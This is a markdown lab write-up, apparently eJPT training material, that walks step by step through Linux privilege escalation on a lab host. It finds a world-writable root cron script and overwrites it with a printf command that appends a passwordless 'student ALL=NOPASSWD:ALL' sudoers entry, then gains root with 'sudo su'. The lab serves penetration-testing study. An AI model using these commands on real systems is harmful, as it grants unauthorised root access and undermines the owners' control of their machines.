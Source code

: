 ## 🧪 Real Lab Examples

### Example 1: Linux Cron Job Script Modification (Primary eJPT Technique)
Based on actual eJPT lab scenario - escalating privileges through writable cron script modification.

```bash
# Phase 1: Initial system access and reconnaissance
ping -c4 target.ine.local
# Output: 4 packets transmitted, 4 received, 0% packet loss

# Access web service on port 8000
# Navigate to: http://target.ine.local:8000
# Result: Linux terminal interface accessible

# Phase 2: Analyze file structure and permissions
ls -l
# Output: total 4
# -rw------- 1 root root 26 Sep 23 2018 message

# Phase 3: Search for files with same name across system
find / -name message
# Output: 
# find: '/etc/ssl/private': Permission denied
# [multiple permission denied entries]
# /home/student/message
# /tmp/message

# Phase 4: Examine /tmp directory for writable files
ls -l /tmp/
# Output: total 4
# -rw-r--r-- 1 root root 26 Sep 10 18:04 message
# -rw-r--r-- 1 root root  0 Sep 10 17:54 ready

# Phase 5: Search for scripts copying the message file
grep -nri "/tmp/message" /usr
# Output: 
# /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
# /usr/local/share/copy.sh:3:chmod 644 /tmp/message

# Phase 6: Examine the copy script permissions
ls -l /usr/local/share/copy.sh
cat /usr/local/share/copy.sh
# Output: 
# -rwxrwxrwx 1 root root 74 Sep 23 2018 /usr/local/share/copy.sh
# #!/bin/bash
# cp /home/student/message /tmp/message
# chmod 644 /tmp/message

# Phase 7: Use printf to modify the script (No text editors available)
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

# Phase 8: Wait for cron job execution and verify privileges
sudo -l
# Output after cron execution:
# User student may run the following commands on target:
# (root) NOPASSWD: ALL

# Phase 9: Escalate to root privileges
sudo su
# Output: root@target:/home/student#

```